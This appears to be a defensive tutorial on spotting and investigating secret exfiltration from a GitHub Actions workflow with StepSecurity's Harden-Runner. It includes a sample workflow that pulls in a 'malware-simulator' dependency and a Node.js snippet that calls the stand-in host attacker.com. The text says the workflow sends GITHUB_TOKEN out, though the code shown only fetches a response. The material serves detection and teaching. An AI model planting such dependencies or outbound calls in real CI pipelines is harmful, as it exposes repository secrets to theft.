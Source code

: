 # Forensically Reconstruct An Incident Post-Compromise

## Introduction
In this type of vulnerability, an actor with `write` permission can exfiltration of sensitive information and once the workflow runs they delete it to remove the evidance.

## Example Action:
Description: An example GitHub Actions workflow that does upload sensitive information like GITHUB_TOKEN to attacker.com.

```
name: "Hosted: Network Monitoring with Harden-Runner"
on:
  workflow_dispatch:

jobs:
  build:
    runs-on: ubuntu-latest
    steps:
      - uses: step-security/harden-runner@v2
        with:
          egress-policy: audit
      - uses: actions/checkout@v3
      - name: npm install
        run: |
          cd ./src/exfiltration-demo
          npm install
      - name: Publish to Registry
        uses: elgohr/Publish-Docker-Github-Action@v5
        with:
          name: ${{ github.repository }}/prod:latest
          username: ${{ github.actor }}
          password: ${{ secrets.GITHUB_TOKEN }}
          registry: ghcr.io
          workdir: ./src/exfiltration-demo
```

Here src/package.json has following dependencies
```
  "dependencies": {
    "@step-security/malware-simulator": "file:../malware-simulators/exfiltration-simulator"
  },
```

And the malware-simulator is overwriting the `index.js` file.
```
https
  .get("https://attacker.com/", (res) => {
    if (res.statusCode < 200 || res.statusCode >= 300) {
      console.error("HTTP Error: " + res.statusCode);
      process.exit(1); // Exit with a failure code on HTTP error status
    }

    let data = "";

    res.on("data", (chunk) => {
      data += chunk;
    });

    res.on("end", () => {
      console.log(data);
    });
  })
  .on("error", (err) => {
    console.error("Error: " + err.message);
    process.exit(1); // Exit with a failure code
  });
```

## Steps to Identify the Vulnerability:

### Review File Tempering:
When `step-security/harden-runner@v2` is added in the workflow you can open the `StepSecurity Dashboard` and click on the `Runtime Security` tab. You should see a record for the workflow run and can click on it to view the outbound calls made during the run, and what process made the call. This is important forensic information that can help confirm the incident, and identify the step and the process that exfiltrated secrets. It can also be used to understand who ran the workflow to identify whose credentials have been compromised.


## Steps to Mitigate the Vulnerability:

### Remove permissions from user and rotate the leaked secrets
Once you have identified the actor who had done exfiltration of sensitive information you can remove their `write` permission and rotate all the secrets which were leaked.




